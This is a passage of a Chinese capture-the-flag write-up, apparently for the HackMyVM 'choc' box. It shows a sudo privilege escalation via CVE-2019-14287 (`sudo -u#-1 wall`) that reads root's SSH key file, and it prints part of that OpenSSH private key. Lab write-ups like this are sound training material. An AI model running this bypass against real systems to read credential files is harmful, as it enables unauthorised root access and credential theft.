 ## 5. 提权root
```bash
sarah@choc:~$ cat quotes.txt

 “You must have chaos within you to give birth to a dancing star.”

 “It is not a lack of love, but a lack of friendship that makes unhappy marriages.”

 “The multiplication of our kind borders on the obscene; the duty to love them, on the preposterous.”

“We do not die because we have to die; we die because one day, and not so long ago, our consciousness was forced to deem it necessary.“

“Luke, I am your father"

sarah@choc:~$ cat user.txt
commenquaded

sarah@choc:~$ sudo -l
User sarah may run the following commands on choc:
    (ALL, !root) NOPASSWD: /usr/bin/wall

```

`!root` 表示出了root用户 其他用户都可以用 `wall` 且不输入密码

### 5.1. sudo root 权限绕过 CVE-2019-14287
https://book.hacktricks.xyz/zh/linux-hardening/privilege-escalation#sudo-less-than-v1.28

> [!caution]
> hacktircks 这里是错误的，正确的版本应该是 <1.8.28
> 
> ![assets/Pasted image 20241222142725.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241222142725.png)


```bash
sarah@choc:/home/torki$ sudo -V
Sudo version 1.8.23
Sudoers policy plugin version 1.8.23
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.23
sarah@choc:/home/torki$ sudo -u#-1 wall --nobanner "/root/.ssh/id_rsa"
```
`wall命令` 会向 **所有登录的用户** 广播消息，所以我们需要用另外一个终端来接受私钥
```bash

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAuSMhRxXhWoexxyZWPK4pkjyVHhT1jAmUYdEhKEFBLZh9z93ZW25M
lrj03xjFd4zP5AAHEG9p5h5SNi3ltHTtml7Nj59XlV6Heru/cwX7Yykxu75tZRxzQR4EjV
qUmxvqJgfql+XzKg3JgNwHRpG3tcW8Rdxbb3owVR97kjZP+3kA/pQGrQKdFe893Q1u2oDa
4R+v+jsYmzwjf/1M8m/S+J0hYzTOI+kQlBnZmMvpJYDidmyG1RO3dcLCpxCQpydH7GfO/s
6j0DdCvDr6+8C4eAzgDE5irjdMh2dKySNveNiMuhzsv1PS33ZWgx/ITlxu9zwiuufQm6D5
TcDYKMGCSQAAA8DHBCmTxwQpkwAAAAdzc2gtcnNhAAABAQC5IyFHFeFah7HHJlY8rimSPJ
UeFPWMCZRh0SEoQUEtmH3P3dlbbkyWuPTfGMV3jM/kAAcQb2nmHlI2LeW0dO2aXs2Pn1eV
Xod6u79zBftjKTG7vm1lHHNBHgSNWpSbG+omB+qX5fMqDcmA3AdGkbe1xbxF3FtvejBVH3
uSNk/7eQD+lAatAp0V7z3dDW7agNrhH6/6OxibPCN//Uzyb9L4nSFjNM4j6RCUGdmYy+kl
gOJ2bIbVE7d1wsKnEJCnJ0fsZ87+zqPQN0K8Ovr7wLh4DOAMTmKuN0yHZ0rJI2942Iy6HO
y/U9LfdlaDH8hOXG73PCK659CboPlNwNgowYJJAAAAAwEAAQAAAQAQK31QlBymp4tjdXm6
uwtudlQf2HzJylxnXriip3Bl5xe1/A5r6epOj8Dza1pz4pyVsVrsmI6LRsKvcLrLVBscjI
MvtB8WMLdshNFn3nHia0qoty0e06lNWq3TGsI3+ewtfiuDMNZYKfQbiRwpkbiV67tR7rkd
t3JZPPKyBoRd1kGjnPzJc2DPyaAtJtS21w86ZxJZtaMWUL6SE1+80VWv0XXPtlmAipfdgF
76A/Z4izCNolx0s+Ptus8gqaxJDeGI4xX5aZZ33kc5cSvNjI2hH6kFX39sS7beVz/zYDKA
```